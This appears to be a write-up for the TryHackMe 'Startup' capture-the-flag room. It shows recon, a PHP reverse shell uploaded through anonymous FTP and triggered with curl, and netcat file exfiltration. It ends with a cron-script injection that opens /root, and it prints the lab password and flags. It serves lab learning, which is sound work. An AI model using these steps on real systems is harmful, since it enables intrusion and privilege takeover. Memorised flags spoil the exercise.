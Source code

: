 # Startup

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, wireshark, pspy64

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.228.144

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.228.144
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Anonymous login allowed to ftp server

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.228.144 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Directory of Interest: /files

![1.3](./imgs/1.3.png)

10.10.228.144/files is hosting ftp

potential username found in notice.txt: maya

image found that could have hidden data<br>

See if there is anything hidden in important.jpg
```
binwalk important.jpg
steghide extract -sf important.jpg
```

nothing interesting found

### 2. REVERSE SHELL

Copy php reverse shell and edit IP
```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![2.1](./imgs/2.1.png)

Upload php reverse shell to ftp server<br>
the /ftp directory has open permissions so we can upload to there 
```
ftp anonymous@10.10.228.144
put php-reverse-shell.php
```

![2.2](./imgs/2.2.png)

Start listener
```
nc -lnvp 1234
```

Activate the php reverse shell
```
curl http://10.10.228.144/files/ftp/php-reverse-shell.php
```

![2.3](./imgs/2.3.png)

```
cat recipe.txt
```
![2.4](./imgs/2.4.png)

**SECRET INGREDIENT**: love

```
cd incidents
```

Found pcap file

![2.5](./imgs/2.5.png)

Transfer to host machine

Start listener
```
nc -lnvp 4444 > file.pcapng
```

Send file
```
nc -v 10.10.228.144 4444 < suspicious.pcapng
```

### 3. WIRESHARK

Open pcap file in wireshark

![3.1](./imgs/3.1.png)

Someone started a reverse shell to 192.168.22.139:4444

Also found password

![3.2](./imgs/3.2.png)

**PASSWORD**: c4ntg3t3n0ughsp1c3

### 4. PIVOT

user lennie in /home directory

SSH as lennie
```
ssh lennie@10.10.228.144
```

![4.1](./imgs/4.1.png)

**USER FLAG**: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### 5. PRIVILEGE ESCCALATION

check privileges
```
sudo -l
```

No sudo privileges

Found potential script we could exploit

![5.1](./imgs/5.1.png)

planner.sh is owned by root and executes /etc/print.sh<br>
lennie owns print.sh so we can inject or own code into it

Check for cronjobs executed by root<br>
Get pspy64 from https://github.com/DominicBreuker/pspy and transfer to lennie
```
scp pspy64 lennie@10.10.228.144:/home/lennie/pspy64
```

Run pspy64
```
chmod +x pspy64
./pspy64
```

![5.2](./imgs/5.2.png)

planner.sh is being executed by root every minute

Edit print.sh and exfiltrate files in /root
```
echo "chmod -R 777 /root" >> /etc/print.sh
```

This will give /root and all its contents open permissions

![5.3](./imgs/5.3.png)

**ROOT FLAG**: THM{f963aaa6a430f210222158ae15c3d76d}

